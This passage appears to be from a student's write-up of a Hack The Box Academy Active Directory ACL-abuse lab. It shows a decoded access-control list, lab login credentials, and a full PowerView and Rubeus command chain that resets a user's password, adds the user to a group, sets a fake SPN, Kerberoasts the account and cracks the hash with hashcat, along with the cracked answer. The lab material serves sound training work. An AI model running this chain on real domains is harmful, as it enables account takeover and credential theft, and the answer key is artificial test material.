-20c0-11d0-a768-00aa006e0529;;S-1-5-21-3842939050-3880317879-2865463114-5181)(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;9a7ad945-ca53-11d1-bbd0-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;bf967991-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967a0a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;9a9a021e-4a5b-11d1-a9c3-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;934de926-b09e-11d2-aa06-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;5e353847-f36c-48be-a7f7-49685402503c;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;8d3bca50-1d7e-11d0-a081-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;e48d0154-bcf8-11d1-8702-00c04fb96050;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;275b2f54-982d-4dcd-b0ad-e53501445efb;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;5fd42471-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;5430e777-c3ea-4024-902e-dde192204669;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;6f606079-3a82-4c1b-8efb-dcc8c91d26fe;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967a7a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;614aea82-abc6-4dd0-a148-d67a59c72816;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;66437984-c3c5-498f-b269-987819ef484b;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;77b5b886-944a-11d1-aebd-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;2cc06e9d-6f7e-426a-8825-0215de176e11;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;3263e3b8-fd6b-4c60-87f2-34bdaa9d69eb;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;3e0abfd0-126a-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;7cb4c7d3-8787-42b0-b438-3c5d479ad31e;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-3842939050-3880317879-2865463114-526)(OA;CI;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-3842939050-3880317879-2865463114-527)(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CCDCLCRPWPLO;f0f8ffac-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;CCDCLCRPWPLO;e8b2aff2-59a7-4eac-9a70-819adef701dd;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;SD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967aa5-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;5cb41ed0-0e4c-11d0-a286-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIO;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIO;CCDCLCSWRPWPDTLOCRSDRCWDWO;;c975c901-6cea-4b6f-8319-d67f45449506;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;CCDCLCSWRPWPDTLOCRSDRCWDWO;;f0f8ffac-1191-11d0-a060-00aa006c33ed;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CINPIO;RPWPLOSD;;e8b2aff2-59a7-4eac-9a70-819adef701dd;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;89e95b76-444d-4c62-991a-0facbeda640c;;BA)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ae-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;e2a36dc9-ae17-47c3-b58b-be34c55ba633;;S-1-5-32-557)(OA;CIIO;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIO;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIO;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;CR;05c74c5e-4deb-43b4-bd9f-86664c2a7fd5;;AU)(OA;;CR;89e95b76-444d-4c62-991a-0facbeda640c;;ED)(OA;;CR;ccc2dc7d-a6ad-4a7a-8846-c04e3cc53501;;AU)(OA;;CR;280f369c-67c7-438e-ae98-1d46f3c6f541;;AU)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ae-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;NS)(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;AU)(OA;CI;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;PS)(OA;CIIO;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;;CCLCSWRPWPLOCRRCWDWO;;;DA)(A;CI;LCSWRPWPRC;;;S-1-5-21-3842939050-3880317879-2865463114-5213)(A;CI;LCRPLORC;;;S-1-5-21-3842939050-3880317879-2865463114-5172)(A;CI;LCRPLORC;;;S-1-5-21-3842939050-3880317879-2865463114-5187)(A;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3842939050-3880317879-2865463114-519)(A;;RPRC;;;RU)(A;CI;LC;;;RU)(A;CI;CCLCSWRPWPLOCRSDRCWDWO;;;BA)(A;;RP;;;WD)(A;;LCRPLORC;;;ED)(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;CI;LCRPWPRC;;;AN)S:(OU;CISA;WP;f30e3bbe-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(OU;CISA;WP;f30e3bbf-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(AU;SA;CR;;;DU)(AU;SA;CR;;;BA)(AU;SA;WPWDWO;;;WD)" |select -ExpandProperty DiscretionaryAcl

Everyone: AccessDenied (WriteData)
Everyone: AccessAllowed (WriteExtendedAttributes)
NT AUTHORITY\ANONYMOUS LOGON: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions, Traverse, WriteExtendedAttributes)
NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
NT AUTHORITY\Authenticated Users: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateDirectories, Delete, ExecuteKey, GenericExecute, GenericRead, GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteAttributes, WriteExtendedAttributes)
BUILTIN\Pre-Windows 2000 Compatible Access: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\Domain Admins: AccessAllowed (ChangePermissions, CreateDirectories, ExecuteKey, GenericExecute, GenericRead, GenericWrite, ListDirectory, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, WriteAttributes, WriteExtendedAttributes)
INLANEFREIGHT\Enterprise Admins: AccessAllowed (ChangePermissions, CreateDirectories, Delete, DeleteSubdirectoriesAndFiles, ExecuteKey, FullControl, GenericAll, GenericExecute, GenericRead, GenericWrite, ListDirectory, Modify, Read, ReadAndExecute, ReadAttributes, ReadExtendedAttributes, ReadPermissions, TakeOwnership, Traverse, Write, WriteAttributes, WriteData, WriteExtendedAttributes, WriteKey)
INLANEFREIGHT\Organization Management: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\Exchange Trusted Subsystem: AccessAllowed (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions, WriteExtendedAttributes)
INLANEFREIGHT\mrb3n: AccessAllowed (CreateDirectories, GenericExecute, GenericWrite, ReadExtendedAttributes, ReadPermissions, Traverse, WriteExtendedAttributes)
```

## Questions
RDP to **10.129.44.13** (ACADEMY-EA-MS01), with user `htb-student` and password `Academy_student_AD!`
1. Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer. **Answer: SyncMaster757**
   - Reset `damundsen` password:
        ```pwsh
        PS C:\Tools> $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
        PS C:\Tools> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
        PS C:\Tools> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
        PS C:\Tools> Import-Module ./PowerView.ps1
        PS C:\Tools> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
        VERBOSE: [Get-PrincipalContext] Using alternate credentials
        VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
        VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
        ```
   - Add `damundsen` to `Help Desk Level 1` Group:
        ```pwsh
        PS C:\Tools> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
        VERBOSE: [Get-PrincipalContext] Using alternate credentials
        VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
        PS C:\Tools> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName | Select damundsenn

        damundsenn
        ----------
        ```
   - Create a fake SPN for user `adunn` and perform Kerberoasting to obtain the TGS ticker hash:
        ```pwsh
        PS C:\Tools> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
        VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
        VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
        VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
        VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
        VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
        VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
        PS C:\Tools> .\Rubeus.exe kerberoast /user:adunn /nowrap

        ______        _
        (_____ \      | |
        _____) )_   _| |__  _____ _   _  ___
        |  __  /| | | |  _ \| ___ | | | |/___)
        | |  \ \| |_| | |_) ) ____| |_| |___ |
        |_|   |_|____/|____/|_____)____/(___/

        v2.0.2


        [*] Action: Kerberoasting

        [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
        [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

        [*] Target User            : adunn
        [*] Target Domain          : INLANEFREIGHT.LOCAL
        [*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

        [*] Total kerberoastable users : 1


        [*] SamAccountName         : adunn
        [*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        [*] ServicePrincipalName   : notahacker/LEGIT
        [*] PwdLastSet             : 3/1/2022 11:29:08 AM
        [*] Supported ETypes       : RC4_HMAC_DEFAULT
        [*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$62AF4EDCCFFB8946DD7E7B0B6EB684C8$EA5900382C94A4E42506F3F485C055C8DD251C58FB823E6DD60793FE139CE46B7EC487E9143E1824F30E214C38E65CC815AAB4EBDBCD5A003487EDD753D7B7985D83703C64914FB4791E6F38F147EABB4DE34FAE03BA6CE142589601A772926316C98C1FC4308FFB8B2714DBCD6B150E7CD996268BD12490F15A154DB9093C8E8C60DFBF272393276802C04649AA44D3A2959CE5A11CECFDBE08D1EB3350297A4D51B54C1B3B1EFB74B9B351681C99152F70C3145B6BC27EDA22000601E4575840728569C12DFA6EA069F4BE79EAD72192B5EF47C78437FB2314F9F7770D79475BCE8F9F31D4F4D076113D55D81270270678F0FC544B7010828303ECD2F39F3CDF8C7CF55D04FAA52B32AD73339EDF7719B5B95333D07E016A0BD454690E08CC1D055EA63DFC8CA44BA44D56E222056E92EF7DCB6433F832F0BDEA41F2C605006A707ECCBF46E699BE6A256CE1CA9EFB7F96E960918641752065D1030BEF7F8A1D02777934C7D4F7183D33C6723B54EB3D05A7C8F18DAC9AFB13479A88726E4FDB8DB9AD250A92A8B53EB62F9DDB7637E10AE6D01B92497ACBD9843777EBDA900B962A30118C3861D5BB9E17F87ADBFBA05FE7817A259762E64E17C18DE1B78A9BC6A7C58D4CDE6CC936EFDBCBADD79EDF9E8771187A87EF1C35AA2C53021A6E8199AAB622BD955D81DDF285042A4A4AFA48BA09CD3AF88AF9E7A38F9761AEDBD258BE84DB6D353DED395D68B096D6126BF9C432BB06DE641597D863207F076AC3A4824CF7E1B5A955DBB5CDE557EB038162970B961F19309102F7C66F2D676EAE754D9BA5889FA6F82490153020C094BCAFBDAEAA2C02E4E4B3E48D759AF281A238A2425B3A90303DE7D54B9CD67DCDAD9D62859E8736F0A7D81C9115FB6535ECB1EAE01C24CFBF3C8477FD4DE385CDC43DE9B7C05306AA53495A92BF19E45CFABF962B7963AF51C4FE5E09B97FFEC35500727C12ED40A0CE27B550A886A292512FE25EF6650A604E552A5CA4637735C142BC1DABED98E938767D06E8299855CC65510C7CDE900060B56FB241E45CE2022DB46E8E8B568FEC95E5C69516E84DEAF9D6E6FFA98AF51F5CFD026BCCA9498902A2E1FF0DF24CFA552A7A2E2532AB0C9AC923BFC4D696DA94A7F03FDD7DC855130442A2484F3DD2AECE39D694C9E1DE69D646CA9AC14F921C76178788CE1C0186EF41BEEA55C9BCEB2C7135E59A71A0801F6C780E5A4A8C298F22D2345C4EB91885B313DEB0C55DE5BAAC0B9FE8D548C76026E59D13CB42485E718788BE0D2A76CC5D9084D2C1941AB080C8A16A0D07E5E0CE0B4C59CBFCC6456D48642B2ECF957B92FCCE9E1D32A52EFF4C5BA5868A4428B9ED8CFF6FF9287D33AE899D7C5B2895104BBE801E2B2E030705C069015F0B2E76225DC9087DF2FFB6A3AF9199D17C74E1195850360A01874A6B25E49CF3CE520E1C423D6093CDE39809A2DA24A85C8D7EBBCA4B8F0A0BD31F42260A320C561AA4433E706DEB803A6030B54704C4D13734634DAD60A947BCB3C7DDF78582012028EB858423C0D03563B246C9E428C20B19B69D0B7DEE8ECBDFE631B21E293E8B7B8969D1788B4533C0987B038257268B460EEC21F26E98619F4A1421AC0D1EAF4C191C6E54CA5150E38FD0DE83FD0B12EBCE622FD7FC
        ```
   - Copy the hash offline and crack it:
        ```pwsh
        $ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 
        <SNIP>

        $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$62af4edccffb8946dd7e7b0b6eb684c8$ea5900382c94a4e42506f3f485c055c8dd251c58fb823e6dd60793fe139ce46b7ec487e9143e1824f30e214c38e65cc815aab4ebdbcd5a003487edd753d7b7985d83703c64914fb4791e6f38f147eabb4de34fae03ba6ce142589601a772926316c98c1fc4308ffb8b2714dbcd6b150e7cd996268bd12490f15a154db9093c8e8c60dfbf272393276802c04649aa44d3a2959ce5a11cecfdbe08d1eb3350297a4d51b54c1b3b1efb74b9b351681c99152f70c3145b6bc27eda22000601e4575840728569c12dfa6ea069f4be79ead72192b5ef47c78437fb2314f9f7770d79475bce8f9f31d4f4d076113d55d81270270678f0fc544b7010828303ecd2f39f3cdf8c7cf55d04faa52b32ad73339edf7719b5b95333d07e016a0bd454690e08cc1d055ea63dfc8ca44ba44d56e222056e92ef7dcb6433f832f0bdea41f2c605006a707eccbf46e699be6a256ce1ca9efb7f96e960918641752065d1030bef7f8a1d02777934c7d4f7183d33c6723b54eb3d05a7c8f18dac9afb13479a88726e4fdb8db9ad250a92a8b53eb62f9ddb7637e10ae6d01b92497acbd9843777ebda900b962a30118c3861d5bb9e17f87adbfba05fe7817a259762e64e17c18de1b78a9bc6a7c58d4cde6cc936efdbcbadd79edf9e8771187a87ef1c35aa2c53021a6e8199aab622bd955d81ddf285042a4a4afa48ba09cd3af88af9e7a38f9761aedbd258be84db6d353ded395d68b096d6126bf9c432bb06de641597d863207f076ac3a4824cf7e1b5a955dbb5cde557eb038162970b961f19309102f7c66f2d676eae754d9ba5889fa6f82490153020c094bcafbdaeaa2c02e4e4b3e48d759af281a238a2425b3a90303de7d54b9cd67dcdad9d62859e8736f0a7d81c9115fb6535ecb1eae01c24cfbf3c8477fd4de385cdc43de9b7c05306aa53495a92bf19e45cfabf962b7963af51c4fe5e09b97ffec35500727c12ed40a0ce27b550a886a292512fe25ef6650a604e552a5ca4637735c142bc1dabed98e938767d06e8299855cc65510c7cde900060b56fb241e45ce2022db46e8e8b568fec95e5c69516e84deaf9d6e6ffa98af51f5cfd026bcca9498902a2e1ff0df24cfa552a7a2e2532ab0c9ac923bfc4d696da94a7f03fdd7dc855130442a2484f3dd2aece39d694c9e1de69d646ca9ac14f921c76178788ce1c0186ef41beea55c9bceb2c7135e59a71a0801f6c780e5a4a8c298f22d2345c4eb91885b313deb0c55de5baac0b9fe8d548c76026e59d13cb42485e718788be0d2a76cc5d9084d2c1941ab080c8a16a0d07e5e0ce0b4c59cbfcc6456d48642b2ecf957b92fcce9e1d32a52eff4c5ba5868a4428b9ed8cff6ff9287d33ae899d7c5b2895104bbe801e2b2e030705c069015f0b2e76225dc9087df2ffb6a3af9199d17c74e1195850360a01874a6b25e49cf3ce520e1c423d6093cde39809a2da24a85c8d7ebbca4b8f0a0bd31f42260a320c561aa4433e706deb803a6030b54704c4d13734634dad60a947bcb3c7ddf78582012028eb858423c0d03563b246c9e428c20b19b69d0b7dee8ecbdfe631b21e293e8b7b8969d1788b4533c0987b038257268b460eec21f26e98619f4a1421ac0d1eaf4c191c6e54ca5150e38fd0de83fd0b12ebce622fd7fc:SyncMaster757

        <SNIP>
        ```